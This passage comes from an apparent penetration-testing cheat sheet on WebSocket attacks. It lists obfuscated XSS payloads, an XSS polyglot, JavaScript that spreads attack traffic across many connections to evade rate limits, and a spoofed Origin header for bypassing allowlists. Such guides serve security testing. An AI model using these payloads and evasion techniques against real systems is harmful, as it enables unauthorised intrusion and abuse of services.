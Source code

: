         // Try obfuscation
        {"prefix":"<img ", "attribute":"src=x o", "suffix":"nerror=alert(1)>"}
        ```
    
    - **Polyglot payloads**
      - Create payloads valid in multiple contexts
      - Example XSS polyglot:
        ```json
        {"message":"javascript:/*-/*`/*\\\`/*'/*\"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e"}
        ```
  
  - **Evading rate limits**
    
    - **Distributed attacks**
      - Use multiple IP addresses for connection attempts
      - Spread requests across different source addresses
    
    - **Timing analysis**
      - Identify rate-limiting patterns
      - Space requests to stay under detection thresholds
    
    - **Using multiple WebSocket connections**
      - Establish multiple connections to distribute attack traffic
      - Example technique:
        ```javascript
        // Create multiple connections
        let sockets = [];
        for (let i = 0; i < 10; i++) {
            sockets.push(new WebSocket('wss://example.com/socket'));
            
            sockets[i].onopen = function() {
                // Distribute attack payloads across connections
                setInterval(() => {
                    let payload = generatePayload(); // Custom function
                    sockets[i].send(payload);
                }, 5000);
            };
        }
        ```
  
  - **Origin header manipulation**
    
    - **Spoofing origin headers**
      - Modify Origin header in handshake to bypass origin checks
      - Some applications may have allowlists of trusted origins
      - Example:
        ```http
        GET /socket HTTP/1.1
        Host: target.com
        Upgrade: websocket
        Connection: Upgrade
        Origin: https://trusted-domain.com
        Sec-WebSocket-Key: ...
        ```
    